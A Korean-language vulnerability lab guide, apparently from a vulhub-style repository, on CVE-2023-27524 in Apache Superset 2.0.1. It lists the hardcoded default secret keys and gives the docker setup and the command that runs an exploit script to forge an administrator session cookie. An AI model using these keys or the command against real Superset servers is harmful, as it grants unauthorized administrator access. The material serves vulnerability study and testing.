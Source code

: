 # Apache 슈퍼셋 하드코딩된 JWT 비밀 키로 인한 인증 우회(CVE-2023-27524)

### 요약
- Apache Superset에는 하드코딩된 JWT 비밀 키 취약점(CVE-2023-27524)이 포함되어 있습니다. 이 애플리케이션은 SECRET_KEY세션 쿠키 서명에 사용되는 기본값을 포함하고 있습니다.
- 관리자가 이 기본 키를 변경하지 않으면 공격자는 유효한 세션 쿠키를 위조하여 관리자를 포함한 모든 사용자로 인증할 수 있습니다. 

### 환경구성 및 실행
Apache Superset 2.0.1 서버를 시작

    docker compose up -d


서버가 시작되면 http://your-ip:8088 에서 Superset에 접속할 수 있습니다. 기본 로그인 정보는 admin/vulhub입니다.


Superset이 다음의 하드코딩된 기본값 중 하나를 사용하기 때문에 취약점이 존재합니다.

- \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h(버전 < 1.4.1)
- CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET(버전 >= 1.4.1)
- thisISaSECRET_1234(배포 템플릿)
- YOUR_OWN_RANDOM_GENERATED_SECRET_KEY(선적 서류 비치)
- TEST_NON_DEV_SECRET(도커 컴포즈)

CVE-2023-27524.py를 사용하여 관리자 세션(user_id가 1인) 쿠키를 위조합니다.

    #Install dependencies
    pip install -r requirements.txt

    #Forge an administrative session (whose user_id is 1) cookie
    python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate


이 스크립트는 알려진 기본 비밀 키를 사용하여 세션 쿠키를 크래킹하려고 시도합니다. 성공하면 user_id=1(일반적으로 관리자 사용자)로 새 세션 쿠키를 위조하고 로그인을 검증합니다.
![image](https://github.com/user-attachments/assets/9b38f0e5-8d8e-4a18-a56d-cf15b31ca64a)

쿠키 값에 이 JWT 토큰을 사용하면 Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.

(1) 원래는 접근 불가능

![image](https://github.com/user-attachments/assets/5be4a350-0d72-4736-9690-18b45418cd12)

(2) 토큰 사용으로 접근 가능

![image](https://github.com/user-attachments/assets/1edaa0a4-091a-46f9-ab3c-5f71700de7bf)
